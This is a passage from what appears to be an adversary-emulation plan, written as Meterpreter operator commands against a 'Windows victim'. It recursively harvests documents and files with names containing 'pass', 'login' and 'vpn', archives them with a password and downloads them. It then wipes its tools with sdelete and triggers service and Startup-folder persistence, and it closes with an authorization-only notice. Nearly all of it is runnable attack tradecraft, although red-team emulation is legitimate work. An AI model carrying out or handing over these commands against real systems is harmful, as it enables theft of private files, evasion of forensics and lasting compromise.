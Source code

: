 [meterpreter (PowerShell)\*] >    
```
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
```  

[meterpreter (PowerShell)\*] > `cd C:\Windows\Temp`       

[meterpreter (PowerShell)\*] > `.\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"`      

[meterpreter (PowerShell)\*] > `exit`     

[meterpreter\*] > `download "C:\\Users\\<username>\\Desktop\\working.zip" .`

#### 9.C

[meterpreter\*] > `shell`  

[meterpreter (Shell)\*] > `cd "C:\Windows\Temp"`   

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"`    

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\AppData\Roaming\working.zip"`     

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\Desktop\working.zip"`     

[meterpreter (Shell)\*] > `del "C:\Windows\Temp\sdelete64.exe"`                    
 
**Terminate Session**       
[meterpreter (Shell)\*] > `exit`         
[meterpreter\*] > `exit`   
msf> `exit`

### Step 10 - Persistence Execution

#### 10.A

Reboot Windows victim 1; wait for system to boot up

You should receive a callback with SYSTEM permissions from the javamtsup service

#### 10.B

Trigger the Startup Folder persistence by logging in to Windows victim 1

## Liability / Responsible Usage

This content is only to be used with appropriate prior, explicit authorization for the purposes of assessing security posture and/or research.

## Notice

